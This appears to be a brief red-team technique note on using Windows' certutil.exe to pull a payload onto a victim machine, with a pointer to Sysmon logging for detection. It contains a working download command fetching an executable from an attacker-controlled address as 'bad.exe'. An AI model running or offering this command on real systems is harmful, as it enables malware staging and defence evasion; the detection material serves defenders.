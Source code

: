 ```yaml
---
layout: post
title: "2024-06-18-downloading file with certutil"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /downloading-file-with-certutil/
---
```


---
description: Downloading additional files to the victim system using native OS binary.
---

# Downloading Files with Certutil

## Execution

```csharp
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

![](../../.gitbook/assets/certutil-download.gif)

## Observations

Sysmon commandling logging is a good place to start for monitoring suspicious `certutil.exe` behaviour:

![](../../.gitbook/assets/certutil-sysmon.png)

@spotheplanet
